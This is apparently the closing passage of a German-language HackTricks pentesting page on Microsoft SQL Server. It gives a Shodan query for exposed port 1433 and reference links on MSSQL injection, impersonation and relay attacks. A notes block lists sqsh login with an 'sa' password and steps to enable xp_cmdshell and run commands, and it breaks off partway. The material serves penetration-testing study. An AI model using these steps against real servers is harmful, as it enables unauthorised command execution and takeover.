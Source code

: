 {% content-ref url="../../windows-hardening/windows-local-privilege-escalation/juicypotato.md" %}
[juicypotato.md](../../windows-hardening/windows-local-privilege-escalation/juicypotato.md)
{% endcontent-ref %}

## Shodan

* `port:1433 !HTTP`

## Referenzen

* [https://stackoverflow.com/questions/18866881/how-to-get-the-list-of-all-database-users](https://stackoverflow.com/questions/18866881/how-to-get-the-list-of-all-database-users)
* [https://www.mssqltips.com/sqlservertip/6828/sql-server-login-user-permissions-fn-my-permissions/](https://www.mssqltips.com/sqlservertip/6828/sql-server-login-user-permissions-fn-my-permissions/)
* [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
* [https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)
* [https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation/](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation/)
* [https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/](https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/)
* [https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)
* [https://mayfly277.github.io/posts/GOADv2-pwning-part12/](https://mayfly277.github.io/posts/GOADv2-pwning-part12/)
* [https://exploit7-tr.translate.goog/posts/sqlserver/?\_x\_tr\_sl=es&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp](https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)

## HackTricks Automatische Befehle
```
Protocol_Name: MSSQL    #Protocol Abbreviation if there is one.
Port_Number:  1433     #Comma separated if there is more than one.
Protocol_Description: Microsoft SQL Server         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for MSSQL
Note: |
Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).

#sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G

###the goal is to get xp_cmdshell working###
1. try and see if it works
xp_cmdshell `whoami`
go

2. try to turn component back on
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell `whoami`
go

3. 'advanced' turn it back on
```